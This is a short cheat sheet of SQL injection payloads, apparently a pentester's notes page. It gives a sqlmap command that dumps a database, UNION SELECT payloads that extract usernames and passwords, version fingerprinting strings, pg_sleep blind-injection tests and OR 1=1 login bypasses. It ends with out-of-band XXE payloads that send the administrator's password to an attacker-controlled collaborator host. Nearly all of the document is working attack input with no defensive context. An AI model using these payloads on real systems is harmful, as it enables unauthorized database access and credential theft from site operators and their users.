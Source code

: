 <h1>SQL Injection</h1>

<p>-- o #</p>

<h2>Reflected SQL Injection:</h2>
<code>sqlmap --url https://$domain/filter?category=Lifestyle --dump --schema --tables --columns</code>

<p>Database: public</p>
<p>Table: users</p>

<h4>POC</h4>
<code>https://$domain/filter?category=Lifestyle'+UNION+SELECT+username,+password+FROM+users--</code>

<h5>Version</h5>
<p>First detect numbers of columns</p>
<p><code>' UNION SELECT NULL,@@version--</code></p>
<p><code>' UNION SELECT NULL,NULL,* FROM v$version--</code></p>
<p><code>' UNION SELECT banner FROM v$version--</code></p>
<p><code>' UNION SELECT version FROM v$instance--</code></p>
<p><code>' UNION SELECT version()--</code></p>

<h2>Blind SQL Injection:</h2>
<p><code>';SELECT PG_SLEEP(5)--</code></p>
<p><code>'||pg_sleep(10)--</code></p>

<p>Input login, in name, password try:</p>
<p>name'--</p>
<p>pass'--</p>

<p>Always try with:</p>
<p>'+OR+1=1--</p>
<p>'+OR+2=2--</p>
<p>'+OR+5=5--</p>
<p>'+OR+'E'='E'--</p>
<p>Test cookies for https request - Blind:</p>
<p>TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--</p>

<p>Then for credentials.</p>

<p>TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--.</p>
